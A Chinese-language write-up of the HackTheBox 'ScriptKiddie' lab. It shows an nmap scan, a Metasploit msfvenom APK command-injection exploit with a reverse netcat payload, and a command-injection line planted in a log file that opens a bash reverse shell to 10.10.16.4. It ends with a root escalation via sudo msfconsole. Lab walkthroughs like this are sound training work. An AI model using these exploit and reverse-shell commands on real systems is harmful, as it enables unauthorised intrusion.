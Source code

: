 # HackTheBox-ScriptKiddie

  
  
&lt;!--more--&gt;  
使用`nmap`进行扫描  
```bash  
sudo nmap --min-rate 10000 -sS -Pn -sV 10.129.95.150  
  
Nmap scan report for 10.129.95.150  
Host is up (0.15s latency).  
Not shown: 997 closed tcp ports (reset)  
PORT     STATE    SERVICE VERSION  
22/tcp   open     ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)  
53/tcp   filtered domain  
5000/tcp open     http    Werkzeug httpd 0.16.1 (Python 3.8.5)  
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel  
  
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .  
Nmap done: 1 IP address (1 host up) scanned in 11.18 seconds  
```  
`5000`端口存在`Web`服务，访问查看  
一个类似于黑客工具的网站  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202404131833212.png)
其中`msfvenom`存在漏洞  
利用其中的工具搜`msfvenom`漏洞  
存在`APK template command injection`漏洞，  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202404131836917.png)
利用`msf`直接生成  
`use exploit/unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection`  
`set payload cmd/unix/reverse_netcat`  
设置好参数进行反弹`shell`  
利用`msf`中的`exploit/multi/handler`接收`shell`  
利用`python`升级成`TTY`格式  
`python3 -c &#39;import pty;pty.spawn(&#34;bash&#34;)&#39;`  
获得`user.txt`中的`flag`  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202404131902939.png)
进入`pwn`用户，其中有一个`scanlosers.sh`脚本  
```bash  
#!/bin/bash  
  
log=/home/kid/2/hackers  
  
cd /home/pwn/  
cat $log | cut -d&#39; &#39; -f3- | sort -u | while read ip; do  
    sh -c &#34;nmap --top-ports 10 -oN recon/${ip}.nmap ${ip} 2&gt;&amp;1 &gt;/dev/null&#34; &amp;  
done  
  
if [[ $(wc -l &lt; $log) -gt 0 ]]; then echo -n &gt; $log; fi  
```  
该脚本会一直扫描`/home/kid/logs/hackers`的目录文件的IP地址，并且该脚本并未对hackers文件传入的内容进行过滤，所以我们直接在`hackers`下面写入内容即可  
`echo &#34;x x x 127.0.0.1; bash -c &#39;bash -i &gt;&amp; /dev/tcp/10.10.16.4/8888 0&gt;&amp;1&#39; # .&#34; &gt; hackers`  
成功反弹`shell  
```bash  
pwn@scriptkiddie:~$ whoami  
whoami  
pwn  
```  
执行`sudo -l`发现可以用`root`权限执行`msfconsole`  
```bash  
Matching Defaults entries for pwn on scriptkiddie:  
    env_reset, mail_badpass,  
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin  
  
User pwn may run the following commands on scriptkiddie:  
    (root) NOPASSWD: /opt/metasploit-framework-6.0.9/msfconsole  
```  
执行`msfconsole`获取`root.txt`  
```bash  
sudo msfconsole  
```  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202404132158746.png)

---

> Author: N1Rvana  
> URL: http://localhost:1313/hackthebox-scriptkiddie/  

